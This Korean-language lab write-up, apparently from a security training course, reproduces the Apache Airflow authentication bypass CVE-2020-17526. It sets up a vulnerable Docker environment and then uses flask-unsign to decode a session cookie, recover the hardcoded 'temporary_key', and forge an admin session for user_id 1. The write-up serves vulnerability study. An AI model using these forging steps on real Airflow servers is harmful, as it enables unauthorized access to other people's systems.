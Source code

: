 # Apache Airflow Authentication Bypass (CVE-2020-17526)

화이트햇스쿨 3기 32반 김나희<br><br>

## 1. 요약
- Apache Airflow는 오픈소스 워크플로우 관리 플랫폼으로, 언제 어떤 작업을 실행할지 미리 정해 자동으로 돌려주는 프로그램이다. 기본적으로 인증 기능이 비활성화되어 있지만, 관리자가 webserver.authenticate=True로 활성화할 수 있다.
- Airflow 1.10.13 이전 버전에서는 세션 정보를 서명하는 데 사용되는 비밀 키가 temporary_key 라는 고정된 값으로 설정되어 있었다. 따라서 공격자가 이를 악용해 임의의 사용자로 가장하여 인증을 우회할 수 있는 취약점이 존재했다.<br><br><br>

## 2. 환경 구성
- git clone https://github.com/umsienrt/kr-vulhub.git
- cd kr-vulhub/CVE-2020-17526
- docker compose run airflow-init
- docker compose up -d
- Flask Unsign 설치 → 세션 키 해독 용도<br><br><br>


## 3. PoC
![img1](https://github.com/umsienrt/kr-vulhub/blob/main/CVE-2020-17526/img1.png?raw=true)
- http://your-ip:8080 으로 접속하면 로그인 페이지가 나온다.<br><br><br><br>
![img2](https://github.com/umsienrt/kr-vulhub/blob/main/CVE-2020-17526/img2.png?raw=true)
- curl -v http://localhost:8080/admin/airflow/login
- Set-Cookie→session에서 세션 키 정보를 알 수 있다.<br><br><br><br>
![img3](https://github.com/umsienrt/kr-vulhub/blob/main/CVE-2020-17526/img3.png?raw=true)
- 개발자 도구 → Application → Cookies → http://127.0.0.1:8080 에서 전체 세션 키 정보를 확인할 수 있다.<br><br><br>
![img4](https://github.com/umsienrt/kr-vulhub/blob/main/CVE-2020-17526/img4.png?raw=true)
- flask-unsign -u -c  세션 키 값
- flask-unsign을 이용해서 세션 키를 해독하면 ‘temporary key’ 가 나온다.<br><br><br><br>
![img5](https://github.com/umsienrt/kr-vulhub/blob/main/CVE-2020-17526/img5.png?raw=true)
- flask-unsign -s --secret temporary_key -c "{'user_id': '1', '_fresh': False, '_permanent': True}”
- user_id가 1인 새 세션을 생성한다.<br><br><br><br>
![img6](https://github.com/umsienrt/kr-vulhub/blob/main/CVE-2020-17526/img6.png?raw=true)
- 개발자 도구에서 session의 value값에 앞서 새롭게 생성된 세션 값을 삽입한다.<br><br><br>


## 결과
![img7](https://github.com/umsienrt/kr-vulhub/blob/main/CVE-2020-17526/img7.png?raw=true)

